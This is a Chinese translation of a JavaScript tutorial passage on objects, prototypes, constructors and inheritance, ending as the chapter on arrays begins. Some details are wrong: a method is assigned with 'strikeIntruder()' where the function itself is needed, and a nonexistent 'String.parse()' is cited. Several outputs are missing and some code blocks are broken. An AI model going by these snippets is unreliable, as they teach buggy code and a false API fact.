##### 使用数组语法访问属性

与点运算符等效但有时更方便的替代方法是数组（[ ]）运算符。它使你能够访问方括号内传递的字符串所指定的属性。例如：

```
var myString = new String("Hello world");

alert(myString["length"]);

myString["simpleExample"] = true;

alert(myString.simpleExample);

delete myString["simpleExample"];
```

一些程序员更喜欢使用这种方法访问属性，仅仅出于风格原因。然而，我们将在后面的章节中看到另一个更倾向于它的原因：它可能比点运算符语法更强大，因为它允许你设置和读取具有任意名称的属性，例如，包含空格的属性。

#### 方法

属性是函数的称为方法。与属性一样，它们通常通过点运算符访问。以下示例说明了调用String对象的**toUpperCase()**方法：

```
var myString = new String("am i speaking loudly? ");

alert(myString.toUpperCase());
```

你也可以使用数组语法，

```
var myString = new String("am i speaking loudly? ");

alert(myString["toUpperCase"]());
```

但这种惯例很少使用。

设置实例方法就像设置实例属性一样：

```
var myString = new String("Am I speaking loudly? ");

myString.sayNo = function() { alert("Nope."); };

myString.sayNo();
```

实例方法在对象是用户定义时最有用。原因是，除非对象是用户定义的，否则你通常不知道其内部结构，因此无法像知道结构时那样做很多事情。

#### 枚举属性

遍历对象属性的一种便捷方法是**for/in**循环。此结构一次遍历一个对象的属性，在每次迭代中将属性的名称赋值给循环变量。结果是，结合用于访问属性的数组语法，你可以在不知道属性名称的情况下对每个属性执行某些操作。例如，你可以打印出对象的属性及其值：

```
for (var prop in document)

    document.write('document["' + prop + '"] = ' + document[prop] + '<br />');
```

在Mozilla和Internet Explorer中的结果如图6-1所示。

```
function clear() {
    [native code]
}

document["captureEvents"] =
function captureEvents() {
    [native code]
}

document["releaseEvents"] =
function releaseEvents() {
    [native code]
}

document["routeEvent"] =
function routeEvent() {
    [native code]
}

document["compatMode"] = BackCompat
document["plugins"] = [object HTMLCollection]
document["designMode"] = off
document["execCommand"] =
function execCommand() {
    [native code]
}
```

图6-1：使用for/in循环枚举Document对象的属性

**for/in**循环有几个重要的细微之处。首先，不同的浏览器通常枚举不同的成员集。基于Mozilla的浏览器枚举属性和方法，而Internet Explorer仅枚举属性。甚至有一些属性许多浏览器*从不*枚举。

需要注意的主要问题是，通常只枚举对象的实例属性。给定以下示例，

```
var myString = new String("Niels is a poor foosball player");

myString.aboutFoosball = true;
```

```
for (var prop in myString)
    document.write('myString["' + prop + '"] = ' + myString[prop] + '<br />');
```

你可能期望的输出比以下内容更多：

确实，Mozilla显示了更多属性（见图6-2），但它们也不完全是你期望的那样。

##### 图6-2：

Mozilla支持字符串的数组式索引。

最后一个需要注意的细节是属性枚举的顺序是未定义的。也就是说，不保证它们分配给循环变量的相对顺序，也不保证顺序在一次**for/in**循环到下一次之间保持一致。

这些事实，特别是通常只枚举实例属性，意味着**for/in**循环主要对用户定义的对象有用，在这些对象中，你已设置实例属性并知道没有预先存在的属性。这些循环通常也很有帮助，特别是在调试时，也可以用来满足你的好奇心；许多浏览器实现了未文档化的属性，如果知道它们存在，这些属性会很有用。

#### 使用 with

另一个方便的对象相关运算符是**with**：

**with** (*object*)

*statement*;

使用**with**可以让你无需显式指定对象本身就能引用其属性。当你在与**with**语句关联的语句或块中使用标识符时，解释器会检查*object*是否具有该名称的属性。如果有，解释器就使用它。例如：

```
with (document.myForm)

{

  if (username.value == "")

    alert("Must fill in username");

  if (password.value == "")

    alert("Password cannot be blank. ");

}
```

在这种情况下，**with**让你可以更少地输入来访问*document.myForm.username.value*和*document.myForm.password.value*。事实上，这是**with**语句的主要用途：减少脚本中的混乱。

> **注意** *其高级解释是，在块执行期间，object被临时放置在作用域链的头部。语句中访问的任何变量首先尝试在object中解析，然后才检查封闭作用域。*

#### 对象是引用类型

所有JavaScript数据类型可以分为原始类型或引用类型。

这两种类型对应于第3章讨论的原始类型和复合类型。*原始类型*是原始数据类型：数字、字符串、布尔值、未定义和空值。这些类型是原始的，因为它们仅限于一组特定值。你可以将原始数据视为直接存储在变量本身中。*引用类型*是对象，包括**Objects**、**Arrays**和**Functions**。因为这些类型可以持有大量异构数据，包含引用类型的变量不包含其实际值。它包含一个对包含实际数据的内存位置的*引用*。

这种区别在大多数时候对你来说是透明的。但在某些情况下，你需要特别注意这些类型的含义。第一种情况是你为同一对象创建两个或多个引用。考虑以下使用原始类型的例子：

```
var x = 10;

var y = x;

x = 2;

alert("The value of y is: " + y);
```

这段代码的行为如你所预期。因为*x*是原始类型（数字），存储在其中的值（**10**）在第二行被赋值给*y*。更改*x*的值对*y*没有影响，因为*y*接收的是*x*值的副本。结果显示在这里：

现在考虑使用引用类型的类似代码：

```
var x = [10, 9, 8];
```


var y = x;

x[0] = 2;

alert("y的第一个元素的值是：" + y[0]);
```

结果可能令人惊讶：


因为数组是引用类型，第二行将$x$数据的引用复制到了$y$中。现在$x$和$y$都指向相同的数据，因此使用任一变量修改数据的值，对$x$和$y$来说都是可见的。

#### 将对象传递给函数

另一个需要特别注意引用类型的情况是，将它们作为参数传递给函数。回顾第5章，函数的参数是按值传递的。由于引用类型持有其实际数据的引用，函数参数接收到的是数据引用的副本，因此可以修改原始数据。以下示例展示了这种效果，该示例向一个修改其数据的函数传递了两个值：一个原始类型和一个引用类型：

```
// 声明一个引用类型（数组）
var refType = ["first ", " second", " third"];

// 声明一个原始类型（数字）
var primType = 10;

// 声明一个接受两个参数的函数，该函数将修改这些参数
function modifyValues(ref, prim)
{
    ref[0] = "changed"; // 修改第一个参数，一个数组
    prim = prim - 8;    // 修改第二个参数，一个数字
}

// 调用函数
modifyValues(refType, primType);

// 打印引用类型的值
```

```
document.writeln("refType的值是：", refType+"<br />");
```

```
// 打印原始类型的值
```

```
document.writeln("primType的值是：", primType);
```

结果如图6-3所示。请注意引用类型的值如何改变了，而原始类型的值没有改变。


**图6-3：** 引用变量可以在函数内部被修改。

#### 比较对象

另一个需要谨慎对待引用类型（对象）的情况是比较它们。当你使用相等（==）比较运算符时，解释器会比较给定变量中的值。对于原始类型，这意味着比较实际数据：

```
var str1 = "abc";
var str2 = "abc";
alert(str1 == str2);
```

结果如预期：


对于引用类型，变量持有的是数据的引用，而不是数据本身。因此，使用相等运算符比较的是*引用*，而不是它们所指向的对象。换句话说，==运算符检查的不是两个变量是否引用了等价的对象，而是*两个变量是否引用了完全相同的对象*。

为了说明：

```
var str1 = new String("abc");
var str2 = new String("abc");
alert(str1 == str2);
```

结果可能令人惊讶：


尽管*str1*和*str2*所引用的对象是等价的，但它们不是同一个对象，因此比较的结果是**false**。

这就引出了一个问题：如果你不能通过对它们的引用使用==来检查两个对象是否相等，那该怎么做呢？有两种方法：将它们转换为原始类型，或者使用自定义的函数。

> 注意*关系比较运算符（>, <, >=, 和 <=）对于这些运算符有意义的对象（例如，**Number**、**String**、**Date**等）按预期工作。原因是这些运算符会自动将其操作数转换为原始类型，我们将在下一节看到。相等关系运算符不会这样做，因为你可能实际上想比较引用。*

#### 公共属性和方法

所有JavaScript对象都具有表6-2中列出的公共属性和方法。大多数只有在你处理自定义对象时才有用，而且说实话，除了那些执行高级面向对象操作的人之外，许多这些属性根本没用。

**表6-2：所有对象共有的属性和方法**

| 属性 | 描述 |
| --- | --- |
| **prototype** | 指向其继承非实例属性的对象的引用 |
| **constructor** | 指向用作此对象构造函数的函数对象的引用 |
| **toString()** | 将对象转换为字符串（行为取决于对象） |
| **toLocaleString()** | 将对象转换为本地化字符串（行为取决于对象） |
| **valueOf()** | 将对象转换为适当的原始类型，通常是数字 |
| **hasOwnProperty(prop)** | 如果对象具有名为*prop*的实例属性，则返回**true**，否则返回**false** |
| **isPrototypeOf(obj)** | 如果对象是对象*obj*的原型，则返回**true** |
| **propertyIsEnumerable(prop)** | 如果字符串*prop*中给定的属性将在**for/in**循环中被枚举，则返回**true** |

你应该了解的两个常用方法是**toString()**，它将对象转换为原始字符串，和**valueOf()**，它将对象转换为最合适的原始类型，通常是数字。当对象在需要其中一种的上下文中使用时，这些方法会自动调用。例如：

```
alert(new Date());
```

由于**alert()**需要一个字符串参数，解释器在幕后调用**Date**对象的**toString()**方法。**Date**对象知道如何将自己转换为字符串，因此结果是


**valueOf()**方法类似。由于比较引用没有意义，关系比较运算符需要两个原始类型来进行操作。因此，当你对对象使用这些运算符之一时，对象会被转换为它们适当的原始形式：

```
var n1 = Number(1);
var n2 = Number(2);
alert(n2 > n1);
```

比较导致调用两个对象的**valueOf()**方法，以便进行比较。

**valueOf()**方法为我们提供了一种比较两个对象是否相等的方法：

```
var n1 = Number(314);
var n2 = Number(314);
alert(n2.valueOf() == n1.valueOf());
```

这段代码愉快地给出了预期的输出：


你通常不必担心手动以这种方式转换值。然而，了解像**valueOf()**和**toString()**这样的工具的存在，当你遇到不理想的类型转换或比较行为时可能会有所帮助，特别是如果你正在创建自己的用户定义对象。

> **注意** **valueOf()**和**toString()**如何与各种运算符协同工作的具体细节超出了本书的范围。感兴趣的读者应查阅*ECMA-262*规范。

#### 泛型和用户定义对象

除了解释如何声明内置对象如**Strings**和**Arrays**，[第4章](#)还提到了创建**Object**对象。这些泛型对象可用于创建用户定义的数据类型，因此它们是编写非平凡JavaScript最强大的工具之一。

与JavaScript中的任何对象一样，你可以动态地向**Objects**添加属性：

```
var robot = new Object();

robot.name = "Zephyr";
robot.model = "Guard";
robot.hasJetpack = true;
```

当然，你也可以动态地添加函数。以下代码通过向*robot*对象添加一个方法来扩展前面的简单示例。我们首先定义函数，然后将其添加到对象：

```
function strikeIntruder()
{
	alert("ZAP!");
}

robot.attack = strikeIntruder();
```

注意，即使函数名为*strikeIntruder*，我们仍将该方法命名为*attack*。我们可以给它起任何名字；解释器并不关心我们选择使用什么标识符。当我们调用该方法时，

```
robot.attack();
```

我们得到的结果是：


我们甚至可以在不命名我们称之为*strikeIntruder*的函数的情况下编写此示例。回顾[第5章](#)，JavaScript 1.2+支持函数字面量。这里我们使用此功能重新陈述我们的示例：

```
var robot = new Object();

robot.name = "Zephyr";
robot.model = "Guard";
robot.hasJetpack = true;
```


#### 面向对象的 JavaScript

由于 JavaScript 支持多种数据类型（例如数字、字符串、数组和函数）的字面量语法，JavaScript 1.2+ 支持 **Object** 字面量也就不足为奇了。其语法是一个用花括号括起来的、以逗号分隔的属性/值对列表。属性/值对通过指定属性名后跟冒号再跟其值来定义。在此，我们使用对象和函数字面量重新表述前面的示例：

```javascript
var robot = {
    name: "Zephyr ",
    model: "Guard",
    hasJetpack: true,
    attack: function() { alert("ZAP!"); }
};
```

并且我们可以像之前一样调用 `robot.attack()` 获得相同的结果。

这个示例也暗示了这些功能的健壮性。指定嵌套字面量、值为 **null** 或 **undefined** 的属性，以及非字面量的值（即变量值）是完全有效的。以下代码通过一个类似于我们之前见过的示例来阐述这些概念：

```javascript
var jetpack = true;

var robot = {
    name: null,
    hasJetpack: jetpack,
    model: "Guard",
    attack: function() { alert("ZAP!"); },
    sidekick: {
        name: "Spot",
        model: "Dog",
        hasJetpack: false,
        attack: function() { alert("CHOMP!"); }
    }
};
```

```javascript
robot.name = "Zephyr";
```

这里涉及的内容可能需要解释一下。首先，请注意 `robot` 的属性 `hasJetpack` 是通过另一个变量 `jetpack` 设置的。还要注意 `robot.name` 初始设置为 **null**，但后来被填充了适当的值。主要的变化是 `robot` 包含一个名为 `sidekick` 的嵌套对象，该对象也包含四个属性：`name`、`model`、`hasJetpack` 和一个 `attack` 方法。调用 `robot.attack()` 会产生现在熟悉的 "ZAP!" 输出。方法调用

```javascript
robot.sidekick.attack();
```

会产生


如果之前示例中定义 `robot` 对象的方式让你觉得冗长且不优雅，那么你的编程直觉非常敏锐。有一种更好的方法来创建你自己的对象，能更好地利用 JavaScript 的面向对象特性。我们将在本章稍后探讨这一点，但目前这些示例应该能说明在对象定义方面你有哪些选择。在继续之前，让我们看看引用对象的另一种方式。

#### 对象作为关联数组

*关联数组*是一种数据结构，它使你能够将数据与名称关联起来。普通数组中的元素通过指示其索引的整数来寻址。关联数组中的元素则通过字符串名称来寻址。例如，你可能有一个按名称（字符串）索引的关联数组，它可以给你客户的地址或电话号码。关联数组是简化“数据查找”任务的一种便捷方式。

JavaScript 提供关联数组是基于以下两个语句等价的事实：

`object.property`

`object["property"]`

JavaScript 中的关联数组仅仅是使用了数组语法的对象，而键/值对仅仅是实例属性的名称和值。要在数组中存储值，我们可能会这样做：

```javascript
var customers = new Object();
customers["John Doe"] = "123 Main St., Metropolis, USA";
```

而要检索它：

```javascript
var address = customers["John Doe"];
```

在 `customers["John Doe"]` 中存储字符串是一个任意的决定。任何类型的数据都可以放入关联数组中。

关联数组最常用于属性名在运行时才知道的情况。例如，你可能有一个循环提示用户输入客户名称和地址。循环内部实际的数据存储可能如下所示：

```javascript
customerName = prompt("Enter name", "");
customerAddress = prompt("Enter address", "");
customers[customerName] = customerAddress;
```

在这个例子中，`customerName` 和 `customerAddress` 都是字符串，但 `customerAddress` 没有理由不能是其他类型的数据，例如一个存储地址信息的用户自定义对象。

除了直接访问元素的方式外，JavaScript 的 **for/in** 结构非常适合遍历关联数组的元素。以下示例遍历数组的所有元素并打印出来：

```javascript
var customers = new Object();
customers["Tom Doe"] = "123 Main St., Metropolis, USA";
customers["Sylvia Cheung"] = "123 Fake St., Vancouver B.C., Canada";
customers["George Speight"] = "145 Baldwin St., Dunedin, NZ";

for (var client in customers)
{
   document.writeln("The address of client " + client + " is:");
   document.writeln(customers[client]);
   document.writeln("<br /><br />");
}
```

每个具有相关数据的名称被赋给 `client`，一次一个。这个变量用于访问数组中的数据。前面示例的输出如图 6-4 所示。


**图 6-4**：关联数组在 JavaScript 中提供键/值数据查找功能。

现在我们已经介绍了对象行为的基础知识以及如何创建和操作通用对象，是时候探讨 JavaScript 的面向对象特性了。这些特性使你能够以类似于更主流的应用程序开发语言（如 Java 和 C++）的成熟方式来构建你的脚本。JavaScript 的面向对象特性不如这些语言灵活，但你可能会发现 JavaScript 提供的功能非常适合编写大型脚本或构建基于 Web 的应用程序时所需的任务类型。

#### 基于原型的对象

在深入探讨使用 JavaScript 面向对象特性的具体细节之前，让我们先理解为什么面向对象的方法可能有用。主要原因在于它允许你编写更清晰的脚本，即将数据及其操作代码封装在一个地方。考虑 **Document** 对象。它封装了当前显示的文档，并提供了一个接口，通过该接口你可以检查并操作文档的部分或整体。你能想象如果所有与文档相关的数据和方法都仅仅存在于全局命名空间中（即不是通过 `document.something` 访问，而只是 `something`），文档操作会有多混乱吗？如果 *所有* JavaScript 的功能都这样暴露出来会怎样？即使是简单的编程任务也会成为命名空间冲突和无休止地寻找正确函数或变量的噩梦。这门语言将基本无法使用。这是一个极端的例子，但它说明了问题。即使较小规模的抽象通常最好也实现为对象。

但我们还没有真正说明，为什么除了我们已经看到的那些（具有可由程序员设置的实例属性的通用 **Objects**）之外，在 JavaScript 中拥有更高级的面向对象特性是可取的。原因在于，使用到目前为止涵盖的技术，除了小规模的面向对象编程之外，做任何事情都将极其费力。对于相同类型的对象，你将被迫手动为每个实例设置相同的属性和方法。更高效的方式是，有一种方法可以一次性指定某种类型所有对象共有的那些属性和方法，并让该类型的每个实例“继承”共同的数据和逻辑。这是 JavaScript 面向对象特性的关键驱动力。

#### 基于原型的对象

Java 和 C++ 是 *基于类* 的面向对象语言。一个对象的属性由其 **类** 定义——即该类每个对象包含的代码和数据的描述。在这些语言中，类是在编译时定义的，也就是说，通过程序员编写的源代码。你不能在运行时向类添加新的属性和方法，程序也不能在运行时创建新的数据类型。

由于 JavaScript 是解释型的（因此没有编译时和运行时的明显区别），因此需要一种更动态的方法。JavaScript 没有正式的类概念；相反，你可以动态地创建新的对象类型，并且可以随时修改现有对象的属性。

JavaScript 是一种 *基于原型* 的面向对象语言，这意味着每个对象都有一个原型，一个对象从它那里继承属性和方法。当访问对象的属性或调用方法时，解释器首先检查对象是否有同名的实例属性。如果有，则使用实例属性。如果没有，解释器会在对象的原型中查找相应的属性。通过这种方式，该类型所有对象共有的属性和方法可以封装在原型中，每个对象可以拥有代表该对象特定数据的实例属性。例如，**Date** 原型应该包含将对象转换为字符串的方法，因为其执行方式对所有 **Date** 对象都是相同的。然而，每个单独的 **Date** 对象应该有自己的数据，指示它所表示的具体日期和时间。

JavaScript 中对象工作方式的唯一进一步概念性方面是原型关系是递归的。也就是说，一个对象的原型本身也是一个对象，因此它自身也可以有一个原型，依此类推。这意味着，如果一个被访问的属性没有作为对象的实例属性被找到，也没有在其原型中被找到，解释器会“沿着”原型链追溯到原型的原型并在那里搜索。如果仍然没有找到，搜索会继续沿着原型链“向上”进行。你可能会问：“它在哪里结束？”答案很简单：在通用的 **Object** 处。JavaScript 中 *所有* 对象最终都“派生”自一个通用的 **Object**，因此搜索在此停止。如果属性在 **Object** 中未找到，其值就是 **undefined**（或者在调用方法的情况下会抛出运行时错误）。

> **注意**  **Object** 是所有其他对象的“超类”，这一事实解释了为什么我们在表 6-2 中自信地说那里列出的属性和方法存在于每个对象中：因为这些恰恰是一个通用 **Object** 的属性和方法！

现在我们已经解释了 JavaScript 面向对象特性的理论基础，让我们看看它如何转化为实现。如果你在此时感到有点困惑，没关系；我们将在介绍具体细节时重述这些理论。

#### 构造函数

对象实例是通过 *构造函数* 创建的，构造函数基本上是准备对象新实例以供使用的特殊函数。每个构造函数都包含一个对象 *原型*，该原型定义了每个对象实例默认具有的代码和数据。


> Note 在深入探讨之前，有必要对术语命名做一些说明。由于 JavaScript 中除了原始数据和语言构造之外的一切都是对象，因此"对象"这个术语被频繁使用。区分对象的类型（例如 Array 或 String 对象）和对象的实例（例如某个包含 Array 或 String 引用的特定变量）非常重要。对象的类型由特定的构造函数定义。所有用该构造函数创建的实例都具有相同的"类型"或"类"（这里对类的定义稍作了扩展）。为了保持清晰，请记住：构造函数及其原型定义了一种对象类型，而用该构造函数创建的对象就是该类型的实例。

我们已经看到了许多对象创建的示例，例如：

```
var s = new String();
```

这行代码调用了 String 对象的构造函数，即名为 `String()` 的函数。JavaScript 知道这个函数是构造函数，因为它与 `new` 操作符一起调用。

我们可以通过定义函数来创建自己的构造函数：

```
function Robot()
{
}
```

这个函数本身什么都不做。但是，我们可以像调用 `String()` 一样，将它作为构造函数来调用：

```
var guard = new Robot();
```

我们现在创建了一个 Robot 对象的实例。显然，这个对象没什么实际用途。在继续之前，我们需要了解更多关于对象构造的知识。

> Note 构造函数不必以大写字母命名。但这样做是更好的，因为它能清楚地区分定义类型的构造函数（首字母大写）和类型的实例（首字母小写）。

当构造函数被调用时，解释器为新对象分配空间，并隐式地将新对象传递给该函数。构造函数可以使用 `this` 来访问正在创建的对象，`this` 是一个持有新对象引用的特殊关键字。解释器提供这个关键字是为了让构造函数能轻松地操作正在创建的对象。例如，它可以用来设置默认值，因此我们可以重新定义构造函数来体现这一能力：

```
function Robot()
{
    this.hasJetpack = true;
}
```

这个示例为每个创建的新对象添加了一个实例属性 `hasJetpack`。使用该构造函数创建对象后，我们可以像预期的那样访问 `hasJetpack` 属性：

```
var guard = new Robot();
var canFly = guard.hasJetpack;
```

由于构造函数就是函数，你可以向构造函数传递参数来指定初始值。我们可以再次修改构造函数，使其接受一个可选参数：

```
function Robot(needsToFly)
{
    if (needsToFly == true)
        this.hasJetpack = true;
    else
        this.hasJetpack = false;
}
```

```
// 创建一个 hasJetpack == true 的 Robot
var guard = new Robot(true);

// 创建一个 hasJetpack == false 的 Robot
var sidekick = new Robot();
```

注意，在这个示例中，我们本可以在创建 *sidekick* 实例时显式传入一个 **false** 值。但通过不传任何参数，我们也隐式地达到了同样的效果，因为参数 *needsToFly* 会是 **undefined**。因此，*if* 语句会正确地执行 `else` 分支。

我们还可以为创建的对象添加方法。一种方法是在构造函数内为实例变量赋值一个匿名函数，就像我们添加实例属性一样。然而，这是一种内存浪费，因为每个创建的对象都会有各自的函数副本。更好的方法是使用对象的原型。

#### 原型

每个对象都有一个 *prototype* 属性来定义其结构。原型是一个 **Object** 的引用，描述了该类型所有对象共有的代码和数据。我们可以在构造函数的原型中填充希望所有 **Robot** 对象拥有的代码和数据。我们将定义修改如下：

```
Robot.prototype.hasJetpack = false;

Robot.prototype.doAction = function()
{
    alert("Intruders beware!");
};
```

```
function Robot(flying)
{
    if (flying == true)
        this.hasJetpack = true;
}
```

这里进行了几项重大更改。首先，我们将 *hasJetpack* 属性移入原型，并赋予其默认值 **false**。这样做使我们可以从构造函数中移除 **else** 子句。其次，我们在构造函数的原型中添加了一个函数 *doAction()*。我们现在创建的每个 **Robot** 对象都同时拥有这两个属性：

```
var guard = new Robot(true);

var canFly = guard.hasJetpack;
guard.doAction();
```

在这里，我们开始看到原型的强大之处。我们可以通过对象的实例访问这两个属性（`hasJetpack` 和 `doAction()`），即使它们没有在对象中被显式设置。如前所述，如果访问某个属性而对象没有该名称的实例属性，就会检查对象的原型，因此即使没有显式设置，解释器也能找到这些属性。如果我们省略 **Robot()** 构造函数的参数，然后访问创建对象的 *hasJetpack* 属性，解释器会在原型中找到默认值。如果我们向构造函数传入 **true**，则原型中的默认值会被构造函数覆盖——构造函数会添加一个名为 *hasJetpack* 的实例变量，其值为 **true**。

方法可以使用 **this** 来引用它们所在的对象实例。我们可以再次重新定义类来反映新的能力：

```
Robot.prototype.hasJetpack = false;

Robot.prototype.actionValue = "Intruders beware!";

Robot.prototype.doAction = function() { alert(this.actionValue); };
```

```
function Robot(flying, action)
{
    if (flying == true)
        this.hasJetpack = true;
    if (action)
        this.actionValue = action;
}
```

我们在原型中添加了一个新属性 *actionValue*。该属性有一个默认值，可以通过向构造函数传递第二个参数来覆盖。如果向构造函数传递了 *action* 的值，调用 *doAction()* 时将显示该值而非默认值（"Intruders beware!"）。例如：

```
var guard = new Robot(true, "ZAP!");

guard.doAction();
```

结果将弹出 "ZAP!" 而不是 "Intruders beware"。

#### 动态类型

原型的一个非常重要方面是它是*共享的*。也就是说，所有用同一构造函数创建的对象共享原型的唯一副本。这意味着原型的更改对所有共享它的对象都可见！这就是为什么原型中的默认值会被实例变量覆盖，而不是直接修改。在原型中修改它们会改变*所有*共享该原型的对象的值。

修改内置对象的原型会非常有用。假设你需要频繁提取字符串的第三个字符。你可以修改 **String** 对象的原型，使所有字符串都拥有你定义的方法：

```
String.prototype.getThirdChar = function()
{
    return this.charAt(2);
}
```

你可以像调用任何其他内置 **String** 方法一样调用此方法：

```
var c = "Example".getThirdChar();  // c 被设置为 'a'
```

#### 类属性

除了实例属性和原型属性之外，JavaScript 还允许你定义*类属性*（也称为*静态属性*），即类型的属性而非特定对象实例的属性。类属性的一个例子是 **Number.MAX_VALUE**。该属性是一个类型级别的常量，因此逻辑上应放在类（构造函数）中，而不是单个 **Number** 对象中。但类属性是如何实现的呢？

由于构造函数是函数而函数是对象，你可以向构造函数添加属性。类属性就是以这种方式添加的。虽然从技术上讲这样做是在类型的构造函数上添加了一个实例属性，我们仍然称其为类变量。继续我们的示例：

```
Robot.isMetallic = true;
```

通过向构造函数添加实例变量来定义 **Robot** 对象的类属性。重要的是要记住，静态属性只存在于一个地方，即作为构造函数的成员。因此，它们通过构造函数而非对象实例来访问。

如前所述，静态属性通常保存不依赖于任何特定实例内容的数据或代码。**String** 对象的 **toLowerCase()** 方法不能是静态方法，因为它返回的字符串取决于调用它的对象。另一方面，**Math** 对象的 **PI** 属性（**Math.PI**）和 **String** 对象的 **parse()** 方法（**String.parse()**）是完美的候选者，因为它们不依赖于任何特定实例的值。从它们的访问方式可以看出，它们实际上是静态属性。我们刚刚定义的 *isMetallic* 属性的访问方式类似，为 **Robot.isMetallic**。

#### 通过*原型链*实现继承

JavaScript 中的继承是通过原型实现的。很明显，特定对象的实例"继承"了构造函数原型中存在的代码和数据。但我们至今还未真正看到的是，也可以从已存在的类型派生出新的对象类型。新类型的实例除了继承自身类型的所有属性外，还会继承其父类型的所有属性。

举个例子，我们可以通过"链式"原型来定义一个新的对象类型，继承 **Robot** 对象的所有能力：

```
function UltraRobot(extraFeature)
{
    if (extraFeature)
        this.feature = extraFeature;
}

UltraRobot.prototype = new Robot();

UltraRobot.prototype.feature = "Radar";
```

这个示例中唯一的新概念是将 **UltraRobot** 的原型设置为一个新的 **Robot** 对象实例。由于属性通过原型解析的方式，**UltraRobot** 对象既"包含" **UltraRobot** 对象的属性，也包含 **Robot** 的属性：

```
var guard = new UltraRobot("Performs Calculus");

var feature = guard.feature;
var canFly = guard.hasJetpack;
guard.doAction();
```

解释器在本示例中解析属性访问的方式与之前讨论的解析方式类似。首先检查对象的实例属性是否匹配，如果未找到，则检查其原型（**UltraRobot**）。如果在原型中未找到匹配项，则检查父原型（**Robot**），该过程递归地重复进行，最终到达 **Object**。


#### 重写属性

为用户自定义对象提供特定属性以*重写*父类行为通常很有用。例如，对象的**toString()**默认值是"[object Object]"。您可能希望通过为您的类型定义一个新的、更合适的**toString()**方法来重写此行为：

```
Robot.prototype.toString = function() { return "[object Robot]"; };
```

那些继承自**Robot**的类可能也希望重写该方法，例如：

```
UltraRobot.prototype.toString = function() { return "[object UltraRobot]"; };
```

这不仅是良好的编程实践，在调试时也很有用，因为"object Object"并不能真正告诉您正在查看什么。

#### JavaScript的面向对象现实

如今，面向对象编程（或OOP）被普遍认为是构建程序的好方法，但在JavaScript中很少使用完整的OOP风格。您可能想知道为什么。该语言本身确实支持面向对象编程的原则，这些原则在本章的示例中已展示，并在此总结：

- **抽象** 对象应表征某个抽象概念或任务。对象应向程序员呈现一个接口，提供该类型对象可能预期的功能或服务。
- **封装** 对象应在内部维护表征其行为所必需的状态。此数据通常对其他对象*隐藏*，并通过对象提供的公共接口访问。
- **继承** 该语言应提供从更通用对象创建专用对象的方法。例如，一个通用的**Shape**对象应有利于创建更具体的对象，如**Square**、**Triangle**或**Circle**。这些具体对象应从其“祖先”“继承”能力。
- **多态性** 不同对象应对相同动作以不同方式响应。例如，**Number**对象可能以算术方式响应加法操作，而**String**对象可能将加法解释为连接。此外，应允许对象根据上下文*多态*（“改变形状”）。

JavaScript支持所有这些原则；它们在语言本身中清晰可见。然而，在实践中，大多数编写自己脚本的程序员大多忽略了这些原则。JavaScript中缺乏OOP编程风格是由于它倾向于用于的任务以及使用其他方法完成这些任务的简便性。使用其许多结构的价值值得怀疑，因为大多数脚本的大小和复杂性不足以证明使用OOP方法的合理性。事实上，该语言对其许多用户来说的成功之处在于，在网站内完成有用的任务不需要大量的精力或代码行数。大多数JavaScript程序员使用他们觉得方便的特性，而将主要的OOP特性留给编写成熟的Web应用程序的程序员。

### 总结

JavaScript提供四种类型的对象：用户自定义、内置、浏览器和文档。本章重点介绍了所有对象的基本方面，以及用户自定义对象的创建和使用。JavaScript是一种基于原型的面向对象语言。新的对象实例是通过构造函数创建的，构造函数初始化新实例的属性。每个对象都有一个原型属性，反映用于创建该对象的构造函数的原型。当访问对象属性时，解释器首先检查对象的实例属性是否有所需名称。如果未找到，则检查对象原型的属性。此过程递归重复，直到沿着继承链向上到达顶层对象。在JavaScript中，大多数时候对象的创建和管理是直接的，程序员从内存管理等难题中解放出来。虽然用户自定义对象可用于创建更模块化和可维护的脚本，但鉴于其脚本的简单性，许多JavaScript程序员并未真正使用它们。相反，他们使用各种内置、浏览器和文档对象。下一章开始研究此类对象，从内置对象开始，特别是**Array**、**Math**、**Date**和**String**。

## 第7章：数组、日期、数学和类型相关对象

本章详细讨论JavaScript内置对象的功能，特别是**Array**、**Date**和**Math**。我们还将探讨与原始类型相关的内置对象，如**Boolean**、**Number**和**String**，以及神秘的**Global**对象。值得注意的是，本章缺少**RegExp**对象，这需要大量解释，是[下一章](#)的主题。对于本章涵盖的每个对象，重点将主要放在最常用且受主流浏览器支持的属性上。内置对象的完整属性列表，包括版本信息，可以在[附录B](#)中找到。那么让我们按字母顺序从Array开始到**String**结束，来概述这些内置对象。

### 数组

数组在[第3章](#)中作为存储有序数据列表的复合类型引入。数组可以使用**Array()**构造函数声明。如果将参数传递给构造函数，它们通常被解释为指定数组的元素。例外情况是，当向构造函数传递单个数字值时，会创建一个空数组，但将数组的**length**属性设置为给定值。数组声明的三个例子如下：

```
var firstArray = new Array();
```

```
var secondArray = new Array("red", "green", "blue");
```

```
var thirdArray = new Array(5);
```

第一个声明创建一个名为*firstArray*的空数组。第二个声明创建一个新数组*secondArray*，其第一个值等于"red"，第二个值等于"green"，最后一个值等于"blue"。第三个声明创建一个新空数组*thirdArray*，其**length**属性值为**5**。使用最后一种语法没有特别优势，实际上很少使用。

JavaScript 1.2+允许您使用数组字面量创建数组。以下声明在功能上与前面示例中的声明等效：

```
var firstArray = [];
```

```
var secondArray = ["red", "green", "blue"];
```

```
var thirdArray = [,,,,];
```

前两个声明不会令人惊讶，但第三个看起来相当奇怪。给定的字面量有四个逗号，但它们分隔的值似乎缺失了。解释器将此示例视为指定五个**undefined**值，并将数组的**length**设置为**5**以反映这一点。有时您会看到使用这种语法的稀疏数组：

```
var fourthArray = [,,35,,,16,,23,];
```

幸运的是，大多数程序员避开了这最后一种数组创建方法，因为计算众多的逗号很麻烦。

用于初始化数组的值不必是字面量。以下示例完全合法，实际上非常常见：

```
var x = 2.0, y = 3.5, z = 1;
```

```
var myValues = [x, y, z];
```

#### 访问数组元素

访问数组元素使用数组名称加方括号和一个值完成。例如，我们可以这样定义一个包含三个元素的数组：

```
var myArray = [1,51,68];
```

鉴于JavaScript中的数组索引从零开始，要访问第一个元素，我们需要指定**myArray[0]**。以下显示了如何访问上一个数组中的各个元素：

```
var x = myArray[0];

var y = myArray[1];

var z = myArray[2];
```

但是，当访问未设置的数组元素时，您需要小心。例如，alert(myArray[35]); 结果是显示**undefined**值，因为这个数组元素显然未设置。然而，如果我们想设置这个数组元素，这样做非常直接。

#### 添加和更改数组元素

与许多其他编程语言中的数组不同，JavaScript数组的好处在于，您不必随着数组大小的增长显式分配更多内存。例如，要向*myArray*添加第四个值，您可以使用

```
myArray[3] = 57;
```

您不必连续设置数组值（一个接一个），所以

```
myArray[11] = 28;
```

